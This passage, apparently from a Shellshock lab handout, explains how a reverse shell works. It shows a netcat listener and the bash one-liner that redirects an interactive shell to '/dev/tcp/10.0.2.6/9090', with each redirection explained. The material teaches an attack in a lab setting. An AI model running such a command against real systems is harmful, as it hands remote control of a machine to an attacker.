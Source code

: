 The key idea of reverse shell is to redirect its standard input, output, and error devices to a network connec-
tion, so the shell gets its input from the connection, and prints out its output also to the connection. At the
other end of the connection is a program run by the attacker; the program simply displays whatever comes
from the shell at the other end, and sends whatever is typed by the attacker to the shell, over the network
connection.
A commonly used program by attackers is `netcat`, which, if running with the "`-l`" option, becomes
a TCP server that listens for a connection on the specified port. This server program basically prints out
whatever is sent by the client, and sends to the client whatever is typed by the user running the server. In the
following experiment, `netcat`(`nc` for short) is used to listen for a connection on port `9090` (let us focus only on the first line).
```
Attacker(10.0.2.6):$ nc -nv -l 9090  ## **Waiting for reverse shell**
Listening on 0.0.0.0 9090
Connection received on 10.0.2.5 39452
Server(10.0.2.5):$  ## **Reverse shell from 10.0.2.5.**
Server(10.0.2.5):$ ifconfig
ifconfig
enp0s3: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
inet **10.0.2.5** netmask 255.255.255.0 broadcast 10.0.2.255
...
```
The above `nc` command will block, waiting for a connection. We now directly run the following bash
program on the Server machine (`10.0.2.5`) to emulate what attackers would run after compromising the
server via the Shellshock attack. This bash command will trigger a TCP connection to the attacker machine’s
port 9090, and a reverse shell will be created. We can see the shell prompt from the above result, indicating
that the shell is running on the Server machine; we can type the `ifconfig` command to verify that the IP
address is indeed `10.0.2.5`, the one belonging to the Server machine. Here is the bash command:
```
Server(10.0.2.5):$ /bin/bash -i > /dev/tcp/10.0.2.6/9090 0<&1 2>&1
```
The above command represents the one that would normally be executed on a compromised server. It is
quite complicated, and we give a detailed explanation in the following:

- "`/bin/bash -i`": The option `i` stands for interactive, meaning that the shell must be interactive
    (must provide a shell prompt).
- "`> /dev/tcp/10.0.2.6/9090`": This causes the output device (`stdout`) of the shell to be redirected to the TCP connection to `10.0.2.6`’s port 9090. In Unix systems, `stdout`’s file descriptor is `1`.
- "`0<&1`": File descriptor `0` represents the standard input device (`stdin`). This option tells the system to use the standard output device as the stardard input device. Since `stdout` is already redirected to the TCP connection, this option basically indicates that the shell program will get its input from the same TCP connection.
- "`2>&1`": File descriptor 2 represents the standard error `stderr`. This causes the error output to be redirected to `stdout`, which is the TCP connection.
